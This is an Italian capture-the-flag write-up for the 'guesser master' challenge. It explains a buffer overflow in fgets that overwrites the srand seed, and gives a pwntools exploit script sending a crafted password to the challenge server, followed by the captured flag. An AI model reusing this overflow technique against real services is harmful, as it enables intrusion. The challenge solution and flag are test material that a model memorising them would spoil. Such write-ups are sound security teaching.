 # guesser master
![challenge](challenge.png)
### Challenge:
##### typical 255 bytes bruteforce challenge

##### Puoi collegarti al servizio remoto con:
##### ```nc guessermaster.challs.olicyber.it 35006```

##### Files: [guesser_master](guesser_master)

### Solution:
Il binario genera una password a 255 caratteri a partire da un byte preso da /dev/urandom come seed, se diamo la password corretta ci legge la flag.
Notiamo come prima cosa un bof sull'input della password, il quale ci permette di dare come input 256 byte extra.

```c
  printf("input: ");
  fgets((char *)local_118,0x200,stdin);
  srand(local_18[0]);
```

Inoltre, il seed viene impostato dopo il nostro input, questo ci permette di modificare il seed a nostro piacimento.
Sapendo questo basta impostare come seed un valore arbitrario e mandare come primi 256 byte la password da noi calcolata.

```py
from pwn import *

r=remote("guessermaster.challs.olicyber.it", 35006)

r.sendline(b"KRPASEPYBQPHPKEBQMJIQOYMUDDOPSPAKHDGMSHNLWUCKBFBOQJHFITDNWRDSJGDTJLGESVPSSTDUYELQNSXVPDLOWOHHULBGYJKSFDLAWOUYUGRICPGRVTGSIOCGCFMBOAVVDJWCATBUDSFFLNYHHHCSVFYAKNECNAAQKYTMTWIYSPEGEFPNMRGLWFLITRMJSMBFMWRGVCHOSNWYSMMFFTSCBFMWWYHROIYBHTJDXQUQERRYHFEMBXQCFGAEHH\0AAAAAAA")
r.interactive()
```

```bash
[*] Switching to interactive mode
input: I like
Flag: flag{whyguesswhenyoucanpwnright?}
```

Flag: ```flag{whyguesswhenyoucanpwnright?}```
